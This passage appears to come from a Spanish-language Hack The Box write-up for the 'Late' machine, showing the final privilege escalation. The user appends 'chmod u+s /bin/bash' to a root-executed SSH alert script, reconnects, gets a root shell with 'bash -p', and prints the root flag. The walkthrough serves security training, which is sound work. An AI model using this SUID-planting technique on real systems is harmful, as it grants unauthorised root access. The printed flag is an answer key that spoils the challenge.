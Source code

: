Si listamos permisos mas avanzados tenemos permiso de hacer un `append` pero no podemos sobrescribir así que vamos a poner la bash **SUID**

```bash
svc_acc@late:/usr/local/sbin$ echo "chmod u+s /bin/bash" >> ssh-alert.sh
svc_acc@late:/usr/local/sbin$ 
```

Funciono 

```bash
svc_acc@late:/usr/local/sbin$ cat ssh-alert.sh 
#!/bin/bash

RECIPIENT="root@late.htb"
SUBJECT="Email from Server Login: SSH Alert"

BODY="
A SSH login was detected.

        User:        $PAM_USER
        User IP Host: $PAM_RHOST
        Service:     $PAM_SERVICE
        TTY:         $PAM_TTY
        Date:        `date`
        Server:      `uname -a`
"

if [ ${PAM_TYPE} = "open_session" ]; then
        echo "Subject:${SUBJECT} ${BODY}" | /usr/sbin/sendmail ${RECIPIENT}
fi


chmod u+s /bin/bash
svc_acc@late:/usr/local/sbin$ 

```

Ahora nos vamos a salir para que se ejecute la tarea y nos conectaremos por **SSH** otra vez desde una nueva terminal

```bash
svc_acc@late:/usr/local/sbin$ exit
logout
Connection to 10.10.11.156 closed.
```

```bash
❯ ssh -i id_rsa svc_acc@10.10.11.156
-bash-4.4$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1113504 Jun  6  2019 /bin/bash
-bash-4.4$ bash -p
bash-4.4# whoami
root
bash-4.4# 
```

## Root.txt 

```bash
bash-4.4# cd /root
bash-4.4# cat root.txt 
ffb414a36d4175479db507a6fe372fd1
bash-4.4# 
```

